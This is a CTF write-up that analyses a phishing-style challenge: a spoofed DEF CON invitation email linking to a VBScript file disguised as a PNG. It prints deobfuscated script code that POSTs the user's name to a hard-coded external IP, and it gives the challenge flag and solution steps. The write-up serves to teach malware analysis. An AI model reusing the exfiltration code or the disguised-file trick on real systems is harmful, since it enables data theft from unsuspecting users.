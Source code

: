### DEF CON Invitation
As you all know, DEF CON CTF Qualifier 2023 was really competitive and we didn't make it. 
Surprisingly, 2 months before the finals in Las Vegas, we received an official invitation from Nautilus Institute to 
attend the event. Should we accept the invitation and schedule the trip?

Author: sahuang
---
Given file: eml file: DEFCON_Finals_Invitation.eml

So we start out with an email. Looking at the message ID we see `Message-Id: <20230626040116.E7EA75474A4@emkei.cz>` which means that this was made with the fake emailer software emkei which explains how the email address looks real since emkei can send emails from any address without having access to it. So we can move on to looking at the attached calendar invite. 

The body of the calendar invite has two links
`https://storage.googleapis.com/defcon-nautilus/venue-guide.html and https://nautilus.org/`
The venue-guide link leads us to download a file named `venue-map.png.vbs` which is a poor attempt at hiding visual basic code as a png file. 
The vbs file has a lot of code in it, a lot is only relevant to the malware but everything after the final "your data is ours now pls send bitcoin" message is heavily obfuscated and looks strange, why would there be more code after the ransom message?

I picked out all the strange code and placed it in my own vbs file to run. 
![[pls.vbs]]

The output is as follows:
`c:\temp\defcon-flag.png.compromised `
``` https://download1647.mediafire.com/l188u2d532qg3fOoLpilcI89p0_h4E0cGLjk_uvBUiag7E_rMZ-H5-me9Kr9SQLVQaKSiKcEvJO-EkfTSUqWlrN6SzXgI0LYBh-F5em4IA4iX3tOIGh0Ej46GlwvLOfT8pzvuy91Utej1r2I0jg7YsUNcssPted508dskWRpkAI/yea535hvgp32vmv/defcon-flag.png.XORed```

```Dim http: Set http = CreateObject("WinHttp.WinHttpRequest.5.1")                Dim url: url = "http://20.106.250.46/sendUserData"                              With http                                                                          Call .Open("POST", url, False)                                                  Call .SetRequestHeader("Content-Type", "application/json")                      Call .Send("{""username"":""" & strUser & """}")                             End With                                                                        res = Msgbox("Thank you for your cooperation!", vbOKOnly+vbInformation, "")```

The second one is a link to download a file named `defcon-flag.png.XORed` which, from the name, we can assume is our flag as an image that has been XORed. So now we just need to the key to XOR it back with. 

If we send our own POST request to the url in the third output (I used https://reqbin.com/post-online to do this) with a blank username, we get the following returned:
`{
    "key": "compromised",
    "msg": "Not admin!"
}`

Interesting. So if we instead send admin as the username, we get:
`{
    "key": "02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY",
    "msg": "Data compromised!"
}`

Very nice. From here I had to play around with cyberchef to work out how to use this key. I ended up converting the key to hex and XORing it with the png.XORED file and got the following image.
![[Pasted image 20230827115653.png]]
If we then flip the image both vertically and horizontally, we get the flag 
`SEKAI{so_i_guess_we'll_get_more_better_next_year-_-}`

For reference, my final cyberchef recipe was https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':'30%2032%2033%2039%2038%2034%2038%2032%2061%2065%2062%2037%2064%2039%2066%2065%2039%2038%2062%2066%2037%2064%2063%2037%2063%2063%205f%2049%2054%2044%2057%2057%2047%204d%2046%204e%2059'%7D,'Standard',false)Render_Image('Raw')Flip_Image('Vertical')Flip_Image('Horizontal')
